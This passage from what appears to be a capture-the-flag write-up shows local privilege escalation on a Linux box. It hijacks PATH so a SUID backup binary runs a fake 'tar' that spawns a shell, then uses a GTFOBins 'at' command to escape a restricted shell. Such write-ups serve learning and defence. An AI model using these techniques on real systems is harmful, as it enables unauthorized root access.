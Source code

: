 I remember the file I found earlier that had matt set as the group and ran as root called:

```
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
```

When trying to run it I got:

```
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
Check your permissions!
```

Let's see if we exploit the path and run our own "tar" command, which will run as root:

`touch tar`

`echo /bin/bash > tar`

`chmod +x tar`

`export PATH=/home/matt:$PATH`

`$PATH`

```
bash: /home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: No such file or directory
```

Running the backup does take us to another shell, just not a root shell, and we're still running as matt.

<br>

## Restricted Shell

I do some further investigation and it looks like we are in a restricted shell that prevented our previous escalation attempt to root. Running `sudo -l` shows us:

```
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

I google search for ways to escape from restricted shells and end up finding the **at** command can be used for this. On the [**GTFOBins site**](https://gtfobins.github.io/gtfobins/at/) it explains you can run the following command:

`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

```
warning: commands will be executed using /bin/sh
job 2 at Wed Mar 23 18:21:00 2022
/bin/sh: 0: can't access tty; job control turned off
$ whoami
matt
```
